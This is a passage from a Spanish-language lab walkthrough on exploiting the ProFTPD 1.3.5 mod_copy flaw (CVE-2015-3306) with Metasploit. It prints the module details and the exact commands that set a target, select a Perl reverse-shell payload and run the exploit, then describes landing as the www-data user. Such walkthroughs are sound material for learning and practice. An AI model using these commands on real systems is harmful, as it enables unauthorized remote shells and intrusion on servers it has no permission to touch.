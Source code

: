     Module stability:
    crash-safe

    Module reliability:
    repeatable-session

    Available targets:
        Id  Name
        --  ----
    =>  0   ProFTPD 1.3.5

    Check supported:
    Yes

    Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                            tml
    RPORT      80               yes       HTTP port (TCP)
    RPORT_FTP  21               yes       FTP port
    SITEPATH   /var/www         yes       Absolute writable website path
    SSL        false            no        Negotiate SSL/TLS for outgoing connections
    TARGETURI  /                yes       Base path to the website
    TMPPATH    /tmp             yes       Absolute writable path
    VHOST                       no        HTTP server virtual host

    Payload information:
    Avoid: 0 characters

    Description:
    This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
    Any unauthenticated client can leverage these commands to copy files from any
    part of the filesystem to a chosen destination. The copy commands are executed with
    the rights of the ProFTPD service, which by default runs under the privileges of the
    'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
    directory, PHP remote code execution is made possible.

    References:
    https://nvd.nist.gov/vuln/detail/CVE-2015-3306
    https://www.exploit-db.com/exploits/36742
    http://bugs.proftpd.org/show_bug.cgi?id=4169


    View the full module info with the info -d command.
    ```

4. Ahora usamos dicho exploit con el comando `use 4` ya que estamos en modo interactivo; si no tendríamos que poner la ruta completa `use exploit/ftp/proftpd/ftp_modcopy_exec`. Una vez escogido, configuraremos los siguientes parámetros:``
    ```bash
    set rhost 192.168.1.75 # IP del objetivo remoto
    set lhost 192.168.1.79 # IP de la local
    set payload cmd/unix/reverse_perl # Payload que vamos a usar
    set sitepath /var/www/html # Ruta a la que tiene acceso el servidor ftp
    run
    ```
5. Antes de continuar, podemos consultar los parámetros del exploit con el comando `show options`, eso nos mostrará las variables configuradas como las del punto anterior y otras opcionales así como sus descripciones. Una vez ejecutado, podemos ver en la siguiente imagen que estamos dentro del directorio del servidor web. El problema es que tenemos el usuario `www-data` que no tiene permisos para nada que esté fuera de dicho directorio. Al menos podemos ver el contenido de los ficheros porque tienen permisos `755`.

